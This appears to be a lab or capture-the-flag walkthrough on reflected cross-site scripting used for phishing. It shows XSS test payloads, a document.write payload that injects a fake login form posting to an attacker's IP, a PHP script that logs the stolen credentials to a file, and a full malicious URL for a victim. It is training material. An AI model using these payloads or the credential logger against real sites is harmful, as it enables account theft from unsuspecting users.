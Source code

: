 # Phishing

### Try to find a working XSS payload for the Image URL form found at '/phishing' in the above server, and then use what you learned in this section to prepare a malicious URL that injects a malicious login form. Then visit '/phishing/send.php' to send the URL to the victim, and they will log into the malicious login form. If you did everything correctly, you should receive the victim's login credentials, which you can use to login to '/phishing/login.php' and obtain the flag.

In many online forums and web applications, there are opportunities to manipulate how a page displays content through a technique known as Cross-Site Scripting (XSS). XSS is a security vulnerability that allows an attacker to inject malicious scripts into web pages viewed by other users. When we attempt to use a basic XSS payload, we might find that it doesn’t execute as expected, often resulting in an error icon that indicates a broken image link. This is a common issue when the application has security measures in place to prevent such injections.

<figure><img src="../../../.gitbook/assets/Screenshot from 2024-10-11 22-30-03 (3).png" alt=""><figcaption></figcaption></figure>

### Step 1: Understanding the Target Application

1. **Identify the Input Field**: Locate the input field where user input is accepted (e.g., an image URL input).
2. **Analyze the Output**: Use browser developer tools (F12) to inspect how your input is rendered in the HTML.
   * {% code overflow="wrap" %}
     ```html
     <html lang="en">
     <body style="background-color: #141d2b; font-family: sans-serif; color: white;">
         <!-- --SNIP-- -->
         <img src='test'>
     </body>
     </html>
     ```
     {% endcode %}

### Step 2: Initial Payload Testing

1. **Basic XSS Payload**: Start with a simple payload:

```markup
<script>alert(1);</script>
```

* Input this into the image URL field and submit.
* If the alert box appears, you have confirmed an XSS vulnerability.

2. **Check for Output Encoding**: If the payload does not execute, check for HTML entities (e.g., `&lt;` for `<`).

### Step 3: Crafting a Working Payload

1. **Bypass Filters**: If basic payloads are blocked, try variations:
   * Use alternative tags or attributes;
   * Incorporate Special Characters:&#x20;

```html
'><script>alert(1);</script>
```

<figure><img src="../../../.gitbook/assets/Screenshot from 2024-10-11 22-32-28 (2).png" alt=""><figcaption></figcaption></figure>

2. **Inspecting the HTML Output**: After submitting your payload, view the page source to see how your input is rendered.

### Step 4: Developing the Phishing Payload

1. **Create a Login Form**: Use `document.write()` to inject the phishing form:

{% code overflow="wrap" %}
```html
document.write('<h3>Please login to continue</h3><form action=http://YOUR_IP><input type="username" name="username" placeholder="Username"><input type="password" name="password" placeholder="Password"><input type="submit" name="submit" value="Login"></form>');
```
{% endcode %}

2. **Remove Existing Elements**: To make the phishing form more convincing, remove the original input field:

```javascript
document.getElementById('urlform').remove();
```

3. **Combine the Code**: Your final payload might look like this:

{% code overflow="wrap" %}
```javascript
document.write('<h3>Please login to continue</h3><form action=http://YOUR_IP><input type="username" name="username" placeholder="Username"><input type="password" name="password" placeholder="Password"><input type="submit" name="submit" value="Login"></form>');document.getElementById('urlform').remove()
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Step 5: Setting Up the Listener

1. **Using PHP**: Create a PHP script to log the credentials:

```php
<?php
if (isset($_GET['username']) && isset($_GET['password'])) {
    $file = fopen("creds.txt", "a+");
    fputs($file, "Username: {$_GET['username']} | Password: {$_GET['password']}\n");
    header("Location: http://YOUR_SERVER_IP/phishing/index.php");
    fclose($file);
    exit();
}
?>
```

* Save this as `index.php` and run a PHP server:

```bash
sudo php -S 0.0.0.0:80
```

### Step 6: Executing the Attack

1. **Craft the Malicious URL**: Combine the target URL with your payload:

{% code overflow="wrap" %}
```html
http://YOUR_SERVER_IP/phishing/index.php?url='><script>document.write('<h3>Please login to continue</h3><form action=http://10.10.14.32><input type="username" name="username" placeholder="Username"><input type="password" name="password" placeholder="Password"><input type="submit" name="submit" value="Login"></form>');document.getElementById('urlform').remove()</script>;<!--

```
{% endcode %}

2. **Send the URL**:

<figure><img src="../../../.gitbook/assets/Screenshot from 2024-10-11 23-24-24 (2).png" alt=""><figcaption></figcaption></figure>

2. **Capture Credentials**: When a victim logs in, their credentials will be sent to your server, and you can check `creds.txt` for the captured information.

<figure><img src="../../../.gitbook/assets/Screenshot from 2024-10-11 23-25-12 (2).png" alt=""><figcaption></figcaption></figure>

### Step 7: Test the captured the credentials

1. Go to http://SERVER\_IP/phishing/login.php and enter the captured credentials to retrieve the flag:

<figure><img src="../../../.gitbook/assets/Screenshot from 2024-10-11 23-25-47 (1).png" alt=""><figcaption></figcaption></figure>











